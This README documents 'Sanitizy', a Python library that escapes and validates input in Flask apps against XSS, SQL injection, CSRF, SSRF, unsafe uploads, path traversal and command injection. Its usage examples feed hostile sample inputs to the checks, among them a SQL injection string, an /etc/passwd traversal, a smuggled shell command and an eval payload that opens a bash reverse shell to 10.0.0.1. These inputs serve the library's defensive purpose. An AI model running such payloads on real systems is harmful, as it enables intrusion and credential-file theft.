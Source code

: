 # Sanitizy
This is a simple and very light weight python package to help securing python web applications in general especially Flask apps since they lack security !!

# Usage:

<h3> XSS:</h3>
<h4> Escape some value:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">from sanitizy import *
<br>XSS.escape('&lt;h1&gt;')# produces: '&#x26;lt;h1&#x26;gt;'  </pre></div>
<h4> Escape all Flask's paramaters GET:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">XSS.escape_args(request)#produces a dict with escaped values  </pre></div>
<h4> Escape all Flask's paramaters POST:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">XSS.escape_form(request)#produces a dict with escaped values </pre></div>

<h3> SQL-Injection:</h3>
<h4> Escape some value:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">from sanitizy import *
<br>SQLI.escape("' or 1=1 or '")# produces: "\' or 1=1 or \'"  </pre></div>
<h4> Escape all Flask's paramaters GET:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">SQLI.escape_args(request)#produces a dict with escaped values </pre></div>
<h4> Escape all Flask's paramaters POST:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">SQLI.escape_form(request)#produces a dict with escaped values </pre></div>

<h3> CSRF:</h3>
<h4> Check if the request is coming from the application itself or not:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">CSRF.validate("http://www.google.com",["www.google.com","www.bing.com"])#takes the referer header value and a list of allowed domains, then returns 'True' if it's safe and 'False' if not  </pre></div>

<h4> Check if the request is coming from the Falsk application itself or not:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">CSRF.validate_flask(request)#returns 'True' if it's safe and 'False' if not  </pre></div>

<h3> SSRF:</h3>
<h4> Validate if the url can lead to a SSRF:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">SSRF.validate("http://localhost:22")#returns 'True' if it's safe and 'False' if not  </pre></div>
<h4> Validate if the Domain/IP can lead to a SSRF:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">SSRF.validate("localhost:22",url=False)#returns 'True' if it's safe and 'False' if not  </pre></div>


<h3> File Upload:</h3>
<h4> Check if the file is safe or not:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">FILE_UPLOAD.check_file(request.files['file'],allowed_extensions=['png','jpg','jpeg','gif','pdf'],allowed_mimetypes=["application/pdf","application/x-pdf","image/png","image/jpg","image/jpeg"])#returns 'True' if it's safe and 'False' if not  </pre></div>
<h4> Save files securely:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">FILE_UPLOAD.save_file(request.files['file'],path="uploads/")#it will returns the path to the uploaded file</pre></div>

<h3> Path Traversal:</h3>
<h4> Check if the file is safe to open/download or not:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">PATH_TRAVERSAL.check("../../../../../../etc/passwd")#returns 'True' if it's safe and 'False' if not  </pre></div>

<h3> RCE (Remote Code/Command Execution):</h3>
<h4> Check value is safe to pass to a command or not:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">RCE.command("ls -a ;cat /etc/passwd ")#returns 'True' if it's safe and 'False' if not  </pre></div>
<h4> Check value is safe to pass to an "eval" function or not:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">RCE.eval("__import__('os').system('bash -i >& /dev/tcp/10.0.0.1/8080 0>&1")#returns 'True' if it's safe and 'False' if not  </pre></div>

<h3> Validate User Inputs:</h3>
<h4> Check value contains alphabets only:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">FORM_INPUTS.alphabet("ala bouali",length=(1,50))#returns 'True' if it's correct and 'False' if not  </pre></div>

<h4> Check if value contains numbers only:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">FORM_INPUTS.numeric("233 21 4",length=(1,15))#returns 'True' if it's correct and 'False' if not  </pre></div>

<h4> Check if value contains alphabets only:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">FORM_INPUTS.alphabet("ala bouali",length=(1,50))#returns 'True' if it's correct and 'False' if not  </pre></div>

<h4> Check if value is alphanumeric:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">FORM_INPUTS.alphanumeric(" ala bOuali12 56",length=(1,50))#returns 'True' if it's correct and 'False' if not  </pre></div>

<h4> Check if value is an Email:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">FORM_INPUTS.email("alabouali@gmail.com",length=(6,15))#returns 'True' if it's correct and 'False' if not  </pre></div>

<h4> Check if value is a Phone Number:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">FORM_INPUTS.phone_number("+123456789",length=(6,15))#returns 'True' if it's correct and 'False' if not  </pre></div>

<h4> Check if value is a long enough Password:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">FORM_INPUTS.password("fvccabah$vhj",length=(8,15))#returns 'True' if it's correct and 'False' if not  </pre></div>

<h4> Check if 2 Passwords match and if they are long enough:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">FORM_INPUTS.passwords_match("fvccabah$vhj","fvccabah$234",length=(8,15))#returns 'True' if it's correct and 'False' if not  </pre></div>

<h4> Check if value matches a specific Regex:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">FORM_INPUTS.regex_match("alabouali@gmail.com",r'\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Z|a-z]{2,}\b',length=(6,15))#returns 'True' if it's correct and 'False' if not  </pre></div>
